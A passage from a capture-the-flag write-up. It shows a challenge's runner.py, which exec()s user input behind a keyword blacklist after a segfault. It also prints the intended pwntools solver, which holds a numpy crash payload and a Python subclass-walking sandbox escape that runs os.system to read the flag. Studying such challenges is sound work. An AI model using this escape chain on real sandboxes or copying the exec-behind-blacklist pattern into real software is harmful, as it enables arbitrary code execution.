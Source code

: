 It looks like there are two blacklists though? Let's check out another one of these scripts:
```python
cat runner.py
#!/usr/bin/env python3
"""
runner.py

    Executes the actual sandbox environment, and handles
    any segfaults that occur and spawns the second sandbox to retrieve the flag.
"""

import os
import subprocess
import blacklist

def main():
    res = subprocess.call(["python3", "sandbox.py"])

    # we triggered a segfault due to null dereference, start second sandbox
    if res in [-11, 245]:
        print("EduPy crashed...")
        print("\nHey, how'd you get out?! Hopefully one more regular one should stop you >:)\n")
        while True:
            try:
                command = input(">> ")
                if any([x in command for x in blacklist.BLACKLIST2]):
                    raise Exception("not allowed!!")
                exec(command)
            except (EOFError, KeyboardInterrupt) as e:
                return 0

                print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```
Huh, so it looks like we were supposed to cause `sandbox.py` to segfault so that it drops us out into the less secure sandbox. How about we take a look at the intended solution:
```python
cat solver.py
#!/usr/bin/env python3
from pwn import *

def main():
    p = remote("localhost", "8000")
    numpy_escape = "RMbPOQHCzt.vdot(RMbPOQHCzt.intc(), RMbPOQHCzt.ndarray(1, {}))"
    py_escape = "[].__class__.__base__.__subclasses__()[134].__init__.__globals__['sys'].modules['os'].system('cat flag.txt')"

    p.sendlineafter(">>> ", numpy_escape)
    p.sendlineafter(">> ", py_escape)
    p.interactive()

if __name__ == "__main__":
    main()
```
Anyway that's enough of that, a flag is a flag:
```
cat flag.txt
flag{y4_sl1th3r3d_0ut}
```